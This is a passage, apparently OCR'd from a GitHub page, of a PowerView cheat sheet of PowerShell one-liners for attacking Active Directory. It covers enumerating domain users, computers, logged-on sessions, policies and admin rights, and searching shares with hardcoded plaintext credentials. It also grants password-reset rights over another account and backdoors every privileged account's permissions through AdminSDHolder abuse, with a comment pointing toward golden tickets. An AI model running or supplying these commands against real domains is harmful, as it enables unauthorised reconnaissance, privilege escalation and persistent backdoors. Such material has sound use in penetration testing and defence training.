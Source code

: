 ````
Find-DomainUserLocation -ComputerUnconstrained -UserAdminCount -UserAllowDelegation
````
- Find all computers in a given OU
````
Get-DomainComputer -SearchBase "ldap://OU=..."
````
- Get the logged on users for all machines in any *server* OU in a particular domain
````
Get-DomainOU -Identity *server* -Domain <domain> | %{Get-DomainComputer -SearchBase $_.distinguishedname -Properties dnshostname | %{Get-NetLoggedOn -ComputerName $_}}
````
- Enumerate all gobal catalogs in the forest
````
Get-ForestGlobalCatalog
````
- Turn a list of computer short names to FQDNs, using a global catalog
````
gc computers.txt | % {Get-DomainComputer -SearchBase "GC://GLOBAL.CATALOG" -LDAP "(name=$_)" -Properties dnshostname}
````
- Enumerate the current domain controller policy
````
$DCPolicy = Get-DomainPolicy -Policy DC
$DCPolicy.PrivilegeRights # user privilege rights on the dc...
````
- Enumerate the current domain policy
````
$DomainPolicy = Get-DomainPolicy -Policy Domain
$DomainPolicy.KerberosPolicy # useful for golden tickets ;)
$DomainPolicy.SystemAccess # password age/etc.
````
- Enumerate what machines that a particular user/group identity has local admin rights to
- Get-DomainGPOUserLocalGroupMapping == old Find-GPOLocation
````
Get-DomainGPOUserLocalGroupMapping -Identity <User/Group>
````
- Enumerate what machines that a given user in the specified domain has RDP access rights to
````
Get-DomainGPOUserLocalGroupMapping -Identity <USER> -Domain <DOMAIN> -LocalGroup RDP
````
- Export a csv of all GPO mappings
````
Get-DomainGPOUserLocalGroupMapping | %{$_.computers = $_.computers -join ", "; $_} | Export-CSV -NoTypeInformation gpo_map.csv
````
- Use alternate credentials for searching for files on the domain
- Find-InterestingDomainShareFile == old Invoke-FileFinder
````
$Password = "PASSWORD" | ConvertTo-SecureString -AsPlainText -Force
$Credential = New-Object System.Management.Automation.PSCredential("DOMAIN\user",$Password)
Find-InterestingDomainShareFile -Domain DOMAIN -Credential $Credential
````
- Enumerate who has rights to the 'matt' user in 'testlab.local', resolving rights GUIDs to names
````
Get-DomainObjectAcl -Identity matt -ResolveGUIDs -Domain testlab.local
````
- Grant user 'will' the rights to change 'matt's password
````
Add-DomainObjectAcl -TargetIdentity matt -PrincipalIdentity will -Rights ResetPassword -Verbose
````
- Audit the permissions of AdminSDHolder, resolving GUIDs
````
Get-DomainObjectAcl -SearchBase 'CN=AdminSDHolder,CN=System,DC=testlab,DC=local' -ResolveGUIDs
````
- Backdoor the ACLs of all privileged accounts with the 'matt' account through AdminSDHolder abuse
````
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=testlab,DC=local' -PrincipalIdentity matt -Rights All
````